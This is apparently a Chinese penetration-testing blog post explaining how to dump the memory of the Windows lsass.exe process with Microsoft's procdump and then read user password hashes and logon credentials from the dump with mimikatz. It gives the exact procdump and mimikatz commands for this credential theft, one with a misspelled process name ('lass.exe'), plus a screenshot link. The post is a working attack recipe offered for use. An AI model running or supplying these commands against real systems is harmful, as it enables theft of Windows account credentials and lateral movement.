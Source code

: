 ```yaml
---
title: "Procdump 导出密码"
date: 2019-07-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mimikatz']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


procdump 是微软官方的一款用于调试的工具, 其用途是导出本地进程的内存文件.

lsass.exe 本地安全权限服务, 通过导出 lass.exe 的内存文件配合 mimikatz 可读取用户 Hash

<!--more-->

服务器执行.

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
procdump64.exe -accepteula -ma lass.exe lsass.dmp
```

本地读取时要注意, 系统必须符合服务器的环境.

```
sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

![procdump getpass](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/procdump_getpass.jpg)